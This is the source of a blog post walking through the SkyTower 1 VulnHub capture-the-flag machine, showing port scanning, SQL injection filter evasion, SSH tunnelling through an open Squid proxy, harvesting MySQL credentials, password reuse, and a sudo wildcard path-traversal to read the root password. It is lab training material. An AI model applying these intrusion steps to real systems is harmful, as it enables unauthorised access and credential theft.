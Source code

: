 ```yaml
---
layout: blog_item
title:  "SkyTower - Walkthrough"
date:   2015-07-20 15:00:60
author: Arr0way
description: 'SkyTower 1, a VulnHub CTF Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

This CTF was designed by Telspace Systems for the CTF at the ITWeb Security Summit and BSidesCPT (Cape Town). The aim is to test intermediate to advanced security enthusiasts in their ability to attack a system using a multi-faceted approach and obtain the "flag".

You will require skills across different facets of system and application vulnerabilities, as well as an understanding of various services and how to attack them. Most of all, your logical thinking and methodical approach to penetration testing will come into play to allow you to successfully attack this system. Try different variations and approaches. You will most likely find that automated tools will not assist you.

**Author:** Telspace Systems

**Download:** [VulnHub](https://www.vulnhub.com)

## Enumeration

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 10.0.1.114

{% endhighlight %}


### Host Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
               <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.22 ((Debian))</p></pc>
           </td>
        </tr>

        <td>
            <pc><p><code>TCP: 3128</code></p></pc>
        </td>
        <td>
            <pc><p>http-proxy</p></pc>
        </td>
        <td>
            <pc><p>Squid http proxy 3.1.20</p></pc>
        </td>
     </tr>

      </tbody>

</table>
</div>


## Web Application Analysis

The basic test below indicated the web application could be vulnerable to SQL injection.


![SQLi Test](/img/blog/skytower/sqli-test.png)

SQL Injection looked possible + DB identified as MySQL:

![MySQL error](/img/blog/skytower/sqli-error.png)

Enumeration indicated the web application was filtering the SQLi attempts and removing some characters, such as <code>OR</code>. This was overcome (after researching for SQLi filtering evasion) using the following:

![Burp SQLi Evasion](/img/blog/skytower/burp-sqli-evasion.png)

With no direct access to SSH the above credentials could not be leveraged to gain a Shell.

## HTTP Proxy SSH Connection

The following was used to gain access to the SSH server by proxying the connection through the open **SQUID** server on the target machine.

Setup tunnel with proxytunnel:

{% highlight bash %}

[root:~]# proxytunnel -p 10.0.1.114:3128 -d 127.0.0.1:22 -a 4444

{% endhighlight %}

SSH through the HTTP tunnel:

{% highlight bash %}
[root:~]# ssh john@127.0.0.1 -p 4444  "/bin/sh"
john@127.0.0.1's password:

id
uid=1000(john) gid=1000(john) groups=1000(john)
{% endhighlight %}

<code>/bin/sh</code> needed to be postfixed to the end of the SSH command, as the server appeared to kick connections upon connection.

## Local Enumeration

Enumeration as the user John discovered the MySQL root credentials:

{% highlight bash %}

$ cat login.php
<?php

$db = new mysqli('localhost', 'root', 'root', 'SkyTech');

{% endhighlight %}

## MySQL Credentials

The following process was used to disclosed the users credentials:

{% highlight bash %}
$ mysql -u root -p
Enter password: root
show databases;


\q
Database
information_schema
SkyTech
mysql
performance_schema
$ mysql -u root -p SkyTech
Enter password: root
show tables;
\q
Tables_in_SkyTech
login



mysql -u root -p SkyTech
Enter password: rootroot
ERROR 1045 (28000): Access denied for user 'root'@'localhost' (using password: YES)
mysql -u root -p SkyTech
Enter password: root
select * from login;
\q
id    email    password
1    john@skytech.com    hereisjohn
2    sara@skytech.com    ihatethisjob
3    william@skytech.com    senseable
{% endhighlight %}

## Privilege Escalation - Password Reuse

Password reuse for the user <code>sara</code> was possible using the previously discovered credentials.

{% highlight bash %}

[root:~]# ssh sara@127.0.0.1 -p 4444 -t  "/bin/sh"
sara@127.0.0.1's password:
$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
{% endhighlight %}

The user **sara** had sudo access to the binary <code>/bin/cat</code>, path traversal was used to cat the contents of <code>/root/flag.txt</code> which contained the root password.

{% highlight bash %}

$ sudo /bin/cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
$

{% endhighlight %}

### Getting root:

With the previously discovered credentials it was possible to <code>su -</code> to root:

{% highlight bash %}

$ su -
Password:
root@SkyTower:~# id
uid=0(root) gid=0(root) groups=0(root)
root@SkyTower:~# cat flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
root@SkyTower:~#

{% endhighlight %}

## Conclusion

I enjoyed the SQL injection filtering evasion, overall a short CTF that can easily be done in an evening.    

Thanks for the VM :)
